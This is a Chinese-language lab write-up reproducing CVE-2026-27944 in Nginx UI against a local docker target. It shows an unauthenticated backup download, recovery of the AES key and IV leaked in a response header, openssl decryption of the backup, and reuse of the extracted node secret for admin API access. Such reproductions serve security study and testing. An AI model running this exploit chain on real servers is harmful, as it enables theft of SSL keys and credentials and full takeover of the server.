


# Nginx UI未授权备份下载与加密密钥泄露漏洞（CVE-2026-27944）

[Nginx UI](https://github.com/0xJacky/nginx-ui)是一个开源的Nginx服务器Web管理界面，提供在线配置编辑、SSL证书管理和服务器监控等功能。

CVE-2026-27944是Nginx UI中一个严重漏洞，影响2.3.3之前的所有版本。`/api/backup`接口在注册路由时未使用认证中间件（而`/api/backup/restore`接口则需要认证），允许未授权的攻击者触发完整的系统备份并下载备份文件。此外，备份生成逻辑会在响应头`X-Backup-Security`中以`Base64(Key):Base64(IV)`的格式暴露AES-256加密密钥和初始化向量（IV），攻击者可以立即解密备份内容。备份文件中包含Nginx UI配置文件`app.ini`（含JWT签名密钥和集群节点密钥）、SQLite数据库（含管理员凭证和会话令牌）、SSL私钥以及Nginx配置文件。

参考链接：

- <https://github.com/0xJacky/nginx-ui/security/advisories/GHSA-g9w5-qffc-6762>
- <https://nvd.nist.gov/vuln/detail/CVE-2026-27944>

## 环境搭建

执行如下命令启动Nginx UI 2.3.2：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:9000/`即可看到Nginx UI登录页面。环境已预配置管理员账户（用户名`admin`，密码`admin`），无需手动初始化。

## 漏洞复现

向`/api/backup`接口发送一个未认证的GET请求即可触发漏洞，无需登录、Cookie或API Token：

```
GET /api/backup HTTP/1.1
Host: your-ip:9000
```

使用curl并开启详细输出来观察下载的文件和响应头信息：

```
curl -v -o backup.zip http://your-ip:9000/api/backup
```

服务器返回HTTP 200状态码和一个包含完整系统备份的ZIP文件。关键信息在响应头中——`X-Backup-Security`字段以`Base64(Key):Base64(IV)`的格式暴露了AES-256加密密钥和初始化向量：

```
< HTTP/1.1 200 OK
< Content-Disposition: attachment; filename=backup-20260310-110718.zip
< Content-Type: application/zip
< X-Backup-Security: 8+O7OgUNsQvSCfNL2PsKU4/AURpaAtGJ2JHLkhYCSfE=:CuStT42ofpmY2IQgk3KToQ==
```



下载的备份文件中包含`nginx-ui.zip`（Nginx UI配置和数据库）、`nginx.zip`（Nginx配置和SSL私钥）以及`hash_info.txt`（完整性校验数据）。所有内部文件均使用AES-256-CBC加密，但由于密钥和IV已在同一个响应中泄露，攻击者可以立即完成解密。

首先从`X-Backup-Security`响应头中提取密钥和IV，然后使用`openssl`对备份中的每个文件进行解密。例如，解密`nginx-ui.zip`：

```
KEY=$(echo -n 'BASE64_KEY' | base64 -d | xxd -p -c 64)
IV=$(echo -n 'BASE64_IV' | base64 -d | xxd -p -c 64)
unzip backup.zip
openssl enc -d -aes-256-cbc -K $KEY -iv $IV -in nginx-ui.zip -out nginx-ui-decrypted.zip
```

解密后的`nginx-ui-decrypted.zip`可以进一步解压，得到`app.ini`和`database.db`。`app.ini`文件中的`[node]`段包含集群节点密钥。在Nginx UI的认证体系中，`X-Node-Secret`请求头是一种绕过JWT验证的替代认证方式——只要该头部的值与配置中的`node.Secret`匹配，请求将以用户ID 1（管理员）的身份获得完整的管理权限。攻击者可以利用提取到的密钥直接访问任意管理接口，无需知道管理员密码：

```
curl -H 'X-Node-Secret: <提取到的密钥>' http://your-ip:9000/api/users
```

数据库中还包含`users`表（存储bcrypt哈希后的管理员密码）和`auth_tokens`表（存储活跃的会话令牌），这些令牌可直接放入`Authorization`请求头使用。



本目录中提供了一个完整的PoC脚本（`poc.py`），可以自动化完成整个利用链。
